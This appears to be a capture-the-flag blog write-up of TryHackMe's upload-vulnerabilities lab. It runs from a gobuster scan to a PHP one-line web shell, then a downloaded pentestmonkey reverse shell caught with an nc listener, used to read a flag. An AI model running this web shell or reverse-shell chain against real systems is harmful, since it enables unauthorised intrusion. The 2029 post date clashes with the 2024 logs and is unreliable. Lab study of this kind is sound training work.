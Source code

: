 ```yaml
---
layout: post
title:  "Upload Vulnerabilities"
date:   2029-01-24 13:50:01 -0600
categories: TryHackMe
image: /assets/img/uploadvulns.png
---
```


first edit the host file and begin

``` bash
#/bin/sh
echo "10.10.232.106    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" >> /etc/hosts
```

In the gobuster part
```
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/30 00:33:15 Starting gobuster
===============================================================
/REDACTED (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2024/01/30 01:03:05 Finished
===============================================================
root@ip-10-10-106-1:~# 

```

Get either a web shell or a reverse shell on the machine.
Let's try a web shell first!

I'll create a file webshell.php
```
<?php echo system($_GET["cmd"]);?>
```
After several tries and remembering the path that I got from gobuster
```
view-source:http://shell.uploadvulns.thm/{REDACTED}/webshell.php?cmd=cat%20/var/www/flag.txt
```
But I like the reverse shell better

```
root@ip-10-10-106-1:~# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2024-01-30 01:08:39--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: \u2018php-reverse-shell.php\u2019

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2024-01-30 01:08:39 (51.5 MB/s) - \u2018php-reverse-shell.php\u2019 saved [5491/5491]

root@ip-10-10-106-1:~# sudo nano php-reverse-shell.php 

```
Then change to my AttackBox IP and port 9000

```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)

```
After figuring out that only 1 web file was loaded, I had to restart the machine and do it again to make it work, but eventually I got:
```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.120.163 33744 received!
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:35:34 up 1 min,  0 users,  load average: 0.62, 0.41, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /var/www/flag.txt
```
